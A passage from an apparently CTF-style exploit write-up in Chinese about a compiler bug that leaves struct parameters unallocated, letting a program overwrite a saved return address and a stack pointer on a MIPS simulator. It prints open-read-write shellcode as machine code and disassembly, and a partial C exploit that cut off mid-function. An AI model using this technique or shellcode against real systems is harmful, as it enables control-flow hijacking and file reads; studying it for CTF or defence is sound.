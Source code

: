 这里并没有为参数结构体分配空间，所以我们就可以越界读写栈上的其他内容。又因为调用约定里返回值和管理初始化的结构体指针等重要数据都在参数旁边。所以可以很轻易的劫持控制流和任意地址读写。

## 利用
大致思路就是定义一个函数返回一个结构体指针。然后用另一个函数接收这个结构体指针对该函数的返回地址等数据覆写。  

首先在该函数内定义一个结构体，在函数序言完之后就会立即给该结构体指针分配空间。此时劫持该指针就可以任意地址读写  
再劫持返回地址，让其指向 `text_seg` 中的某个位置就可以让汇编器跳转到这个地方去指向。然后我们再用上面劫持的指针往该地方写入 shllecode 就可以 orw 了 

这是该 orw_shllecode 的机器码
```shell
[0x00400024]	0x3c01616c  lui $1, 24940                   ; 3: li $v1, 1634493999
[0x00400028]	0x3423662f  ori $3, $1, 26159
[0x0040002c]	0x34050067  ori $5, $0, 103                 ; 4: li $5, 103
[0x00400030]	0xafa30000  sw $3, 0($29)                   ; 5: sw $v1,0($sp)
[0x00400034]	0xafa50004  sw $5, 4($29)                   ; 6: sw $5,4($sp)
[0x00400038]	0x001d2021  addu $4, $0, $29                ; 7: move $a0,$sp
[0x0040003c]	0x34050000  ori $5, $0, 0                   ; 8: li $a1,0
[0x00400040]	0x3402000d  ori $2, $0, 13                  ; 9: li $v0, 13
[0x00400044]	0x0000000c  syscall                         ; 11: syscall
[0x00400048]	0x00022021  addu $4, $0, $2                 ; 13: move $a0,$2
[0x0040004c]	0x001d2821  addu $5, $0, $29                ; 14: move $a1,$sp
[0x00400050]	0x34060040  ori $6, $0, 64                  ; 15: li $a2,64
[0x00400054]	0x3402000e  ori $2, $0, 14                  ; 16: li $v0, 14
[0x00400058]	0x0000000c  syscall                         ; 18: syscall
[0x0040005c]	0x00023021  addu $6, $0, $2                 ; 20: move $a2,$2
[0x00400060]	0x34040001  ori $4, $0, 1                   ; 21: li $a0,1
[0x00400064]	0x3402000f  ori $2, $0, 15                  ; 22: li $v0,15
[0x00400068]	0x0000000c  syscall                         ; 24: syscall
[0x0040006c]	0x3402000a  ori $2, $0, 10                  ; 27: li $v0,10
[0x00400070]	0x0000000c  syscall                         ; 28: syscall
```
因为 mips 汇编都是 32 位指令，所以每条指令都写入一个 int 的空间就行了 

exp
```c
struct bad{
    int _0;
    int _4;
    int _8;
    int _12;
};
struct bad stack_uaf(){
    struct bad local;
    return local;
}
int barrier(){
    return 0;
}

int overwrite(struct bad mystk){
    struct bad victim;
    // 此时victim指针存储在寄存器中，barrier强制将指针写回栈，并无效寄存器内容
    barrier();
    mystk._12=0x00400f00;
    // 劫持栈上$ra
    mystk._8=0x00400f00;
    // 修改栈上victim指针
    
    // 此时victim变量没有对应的寄存器，从栈上加载victim内容，即0x00400f00
    victim._0=0x3c01616c;
    victim._4=0x3423662f;
    victim._8=0x34050067;
    victim._12=0xafa30000;

    // 修改栈上victim指针
```